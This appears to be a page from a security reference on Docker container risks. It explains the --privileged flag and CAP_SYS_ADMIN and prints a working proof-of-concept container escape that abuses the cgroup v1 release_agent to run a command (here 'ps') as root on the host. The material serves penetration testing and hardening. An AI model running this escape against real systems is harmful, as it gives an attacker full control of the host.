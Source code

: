 Running a Docker container with `--privileged` or dangerous capabilities allows privileged operations. 

{% raw %} {% hint style="info" %} {% endraw %}
The `--privileged` flag gives all [capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) to the container, and it also lifts all the limitations enforced by the device cgroup controller. In other words, the container can then do almost everything that the host can do. 
{% raw %} {% endhint %} {% endraw %}

You can use the [capsh](https://man7.org/linux/man-pages/man1/capsh.1.html) command to see granted capabilities:

```bash
$ capsh --print | grep Current
```

# CAP_SYS_ADMIN

[CAP_SYS_ADMIN](https://man7.org/linux/man-pages/man7/capabilities.7.html) is largely a catchall capability, it can easily lead to additional capabilities or full root (typically access to all capabilities). `CAP_SYS_ADMIN` is required to perform a range of administrative operations, which is difficult to drop from containers if privileged operations are performed within the container. Retaining this capability is often necessary for containers which mimic entire systems versus individual application containers which can be more restrictive.

## Abusing usermode helper API

Privileged containers can register usermode application helpers that are executed in the kernel context, for more information on invoking user-space applications from kernel see [here](https://developer.ibm.com/technologies/linux/articles/l-user-space-apps/).

The [@_fel1x](https://twitter.com/_fel1x/status/1151487051986087936) escape technique is based on abusing the functionality of the `notify_on_release` feature in cgroups v1 to run the exploit as a fully privileged root user.

Here is a version of the PoC that launches `ps` on the host:

```bash
# Finds + enables a cgroup release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# Enables notify_on_release in the cgroup
mkdir -p $d/w; echo 1 > $d/w/notify_on_release
# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent
# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c
# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1
# Reads the output
cat /o
```
